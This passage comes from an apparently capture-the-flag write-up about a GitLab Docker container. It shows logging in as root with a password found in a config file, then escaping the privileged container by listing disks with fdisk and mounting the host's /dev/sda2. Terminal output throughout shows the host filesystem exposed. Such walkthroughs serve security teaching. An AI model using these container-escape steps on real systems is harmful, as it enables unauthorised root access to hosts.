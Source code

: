 # pgbouncer['auth_query'] = 'SELECT username, password FROM public.pg_shadow_lookup($1)'
#     password: @@@MD5_PASSWORD_HASH@@@
# postgresql['pgbouncer_user_password'] = nil
git@gitlab:~/gitlab-rails/working$
{% endhighlight %}

We can try to log in as `root` with each password by executing `su root` and submitting one of the passwords. upon doing this, we discover that the password `wW59U!ZKMbG9+*#h` actually works, as demonstrated below. The next step is to break out of the Docker container and compromise the `root` user of the underlying operating system!

{% highlight none linenos %}
git@gitlab:~/gitlab-rails/working$ @@su root@@
su root
Password: @@wW59U!ZKMbG9+*#h@@

@@@root@gitlab@@@:/var/opt/gitlab/gitlab-rails/working#
{% endhighlight %}

In privileged Docker containers, it is often possible for the `root` user to mount the host's file system. By executing `fdisk -l`, we can list the hard drive partitions which we can access. As can be seen below, one of these is `/dev/sda2` which is the host's file system. We can access this file system by executing `mkdir /mnt/realFileSystem` and `mount /dev/sda2 /mnt/realFileSystem` to create an empty directory and mount the file system in this directory.

{% highlight none linenos %}
root@gitlab:/var/opt/gitlab/gitlab-rails/working# @@fdisk -l@@
[...]
Disk /dev/sda: 20 GiB, 21474836480 bytes, 41943040 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: gpt
Disk identifier: 32558524-85A4-4072-AA28-FA341BE86C2E

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
@@@/dev/sda2@@@      4096 37746687 37742592  18G @@@Linux filesystem@@@
/dev/sda3  37746688 41940991  4194304   2G Linux swap
root@gitlab:/var/opt/gitlab/gitlab-rails/working# @@mkdir /mnt/realFileSystem@@
mkdir /mnt/realFileSystem
root@gitlab:/var/opt/gitlab/gitlab-rails/working# @@mount /dev/sda2 /mnt/realFileSystem@@
</gitlab-rails/working# mount /dev/sda2 /mnt/realFileSystem                  
root@gitlab:/var/opt/gitlab/gitlab-rails/working# @@ls /mnt/realFileSystem@@
ls /mnt/realFileSystem
@@@bin   cdrom  etc   lib    lib64   lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib32  libx32  media       opt  root  sbin  srv   tmp  var@@@
{% endhighlight %}
